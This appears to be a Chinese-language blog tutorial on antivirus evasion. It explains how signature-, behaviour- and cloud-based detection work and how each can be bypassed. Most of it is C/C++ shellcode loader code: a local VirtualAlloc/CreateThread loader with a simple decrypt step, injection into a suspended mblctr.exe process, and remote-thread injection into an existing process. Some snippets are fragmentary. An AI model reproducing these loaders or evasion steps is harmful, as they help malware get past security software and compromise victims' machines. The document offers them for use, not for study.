 目前的反病毒安全软件，常见有三种，一种基于特征，一种基于行为，一种基于云查杀。云查杀的特点基本也可以概括为特征查杀。

对特征来讲，大多数杀毒软件会定义一个阈值，当文件内部的特征数量达到一定程度就会触发报警，也不排除杀软会针对某个EXP会限制特定的入口函数来查杀。当然还有通过md5，sha1等hash函数来识别恶意软件，这也是最简单粗暴，最容易绕过的。 针对特征的免杀较为好做，可以使用加壳改壳、添加/替换资源、修改已知特征码/会增加查杀概率的单词（比如某函数名为ExecutePayloadshellcode）、加密Shellcode等等。

CreateThread CreateThreadEx

xxx -> ntdll.dll -> win32API

对行为来讲，很多个API可能会触发杀软的监控，比如注册表操作、添加启动项、添加服务、添加用户、注入、劫持、创建进程、加载DLL等等。 针对行为的免杀，我们可以使用白名单、替换API、替换操作方式（如使用WMI/COM的方法操作文件）等等方法实现绕过。除常规的替换、使用未导出的API等姿势外，我们还可以使用通过直接系统调用的方式实现，比如使用内核层面Zw系列的API，绕过杀软对应用层的监控（如下图所示，使用ZwAllocateVirtualMemory函数替代VirtualAlloc）。

```
int main()
{
	LPVOID lpvAddr = VirtualAlloc(0, 1024, MEM_RESERVE | MEM_COMMIT, PAGE_EXECUTE_READWRITE);
	unsigned char data[] = "\x00\x48\x83";
	char a1[] = "\xfc\xe4\xc8";

	SIZE_T Size = sizeof(data);

	//decrypt
	for (int i = 0; i < sizeof(a1); i++) {
		memcpy(&data[i * 3], &a1[i], 1);
	}

	RtlMoveMemory(lpvAddr, data, sizeof(data));
	DWORD pa = 0x01;
	VirtualProtect(lpvAddr, sizeof(data), 0x10, &pa);

	if (lpvAddr != NULL) {
		HANDLE s;
		s = CreateThread(0, 0, (LPTHREAD_START_ROUTINE)lpvAddr, data, 0, 0);
		WaitForSingleObject(s, INFINITE);
	}
}
```

ThreadHijacking
VirtualAllocEx(CreateNewProcess)

```
char a1[] = "\xfc\xe4\xc8\x00\x41\x51...";

SIZE_T size = 0;
STARTUPINFOEXA si;
PROCESS_INFORMATION pi;

ZeroMemory(&si, sizeof(si));
si.StartupInfo.cb = sizeof(STARTUPINFOEXA);
si.StartupInfo.dwFlags = STARTF_USESHOWWINDOW;

ZeroMemory(&si, sizeof(si));
si.StartupInfo.cb = sizeof(STARTUPINFOEXA);
si.StartupInfo.dwFlags = STARTF_USESHOWWINDOW;

InitializeProcThreadAttributeList(si.lpAttributeList, 1, 0, &size);

BOOL success = CreateProcessA(
	NULL,
	(LPSTR)"C:\\Windows\\System32\\mblctr.exe",
	NULL,
	NULL,
	true,
	CREATE_SUSPENDED | EXTENDED_STARTUPINFO_PRESENT,//有扩展启动信息的结构体
	NULL,
	NULL,
	reinterpret_cast<LPSTARTUPINFOA>(&si),
	&pi);

HANDLE notepadHandle = pi.hProcess;
LPVOID remoteBuffer = VirtualAllocEx(notepadHandle, NULL, sizeof data, (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);

WriteProcessMemory(notepadHandle, remoteBuffer, data, sizeof data, NULL);
HANDLE remoteThread = CreateRemoteThread(notepadHandle, NULL, 0, (LPTHREAD_START_ROUTINE)remoteBuffer, NULL, 0, NULL);

if (WaitForSingleObject(remoteThread, INFINITE) == WAIT_FAILED) {
	return 1;
}

if (ResumeThread(pi.hThread) == -1) {
	return 1;
}
```

VirtualAllocEx(Use existing app)

```
HANDLE hProc = OpenProcess(PROCESS_ALL_ACCESS, false, procID);
if (hProc == INVALID_HANDLE_VALUE) {
    printf("Error opening process ID %d\n", procID);
    return 1;
}
void *alloc = VirtualAllocEx(hProc, NULL, sizeof(buf), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
if (alloc == NULL) {
    printf("Error allocating memory in remote process\n");
    return 1;
}
if (WriteProcessMemory(hProc, alloc, shellcode, sizeof(shellcode), NULL) == 0) {
    printf("Error writing to remote process memory\n");
    return 1;
}
HANDLE tRemote = CreateRemoteThread(hProc, NULL, 0, (LPTHREAD_START_ROUTINE)alloc, NULL, 0, NULL);
if (tRemote == INVALID_HANDLE_VALUE) {
    printf("Error starting remote thread\n");
    return 1;
}
WaitForSingleObject(tRemote, INFINITE) == WAIT_FAILED
```

VirtualProtect

```
// BOOL VirtualProtect(
//   LPVOID lpAddress,
//   SIZE_T dwSize,
//   DWORD  flNewProtect,
//   PDWORD lpflOldProtect
// );

LPVOID lpvAddr = VirtualAlloc(0, 1024, MEM_RESERVE | MEM_COMMIT, PAGE_EXECUTE_READWRITE);
DWORD pa = 0x01;
VirtualProtect(lpvAddr, sizeof(data), PAGE_EXECUTE, &pa);
//PAGE_EXECUTE 启用对页面的提交区域的执行访问。尝试写入提交的区域会导致访问冲突
```
